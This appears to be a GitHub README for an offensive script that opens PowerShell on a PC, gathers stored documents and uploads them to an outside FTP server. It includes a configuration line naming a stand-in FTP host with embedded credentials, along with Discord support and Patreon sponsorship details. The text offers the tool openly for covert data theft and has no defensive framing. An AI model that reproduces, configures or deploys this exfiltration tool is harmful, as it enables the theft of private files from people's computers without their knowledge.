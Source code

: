 
# Exfiltrate Documents
This script will exfiltrate documents stored on the pc and upload them to a ftp server.

## How to use?

This script is not plug and play. You need to do the following changes:

- change the ftp server info right here "STRING $ftpAddr = "ftp://username:password@ftp.host.com/Report.zip"


## Features

- open powershell 
- exfiltrate documents
- upload documents to ftp server



## Feedback

If you have any feedback, please reach out to me via Discord "UNC0V3R3D#8662".






## Support

For support, contact me via  Discord "UNC0V3R3D#8662".


## Meta


- If you want to sponsor me on Patreon, the link is on my profile.


